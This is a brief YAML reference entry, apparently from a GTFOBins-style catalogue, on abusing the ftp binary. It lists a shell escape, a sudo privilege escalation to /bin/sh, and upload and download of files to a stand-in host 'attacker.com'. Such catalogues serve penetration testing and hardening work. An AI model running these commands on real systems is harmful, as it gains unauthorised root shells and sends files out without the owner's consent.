 functions:
  shell:
    - code: |
        ftp
        !/bin/sh
  file-upload:
    - description: Send local file to a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        get file_to_get
  sudo:
    - code: |
        sudo ftp
        !/bin/sh
---
